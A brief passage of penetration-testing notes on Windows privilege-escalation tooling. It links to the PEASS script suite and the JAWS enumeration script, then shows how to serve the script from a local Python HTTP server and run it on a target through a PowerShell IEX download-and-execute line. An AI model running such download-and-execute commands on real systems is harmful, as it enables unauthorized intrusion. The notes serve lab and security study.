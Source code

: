## Tools

https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/

Jaws Scripts - JAWS - Just Another Windows (Enum) Script 

##### Executing Jaws scripts  

- On local system - `python –m simplehttpserver` 
- On windows machine – `IEX(New-Object Net WebClient).downloadString('http://10.10.10.10:8080/jaws.ps1')`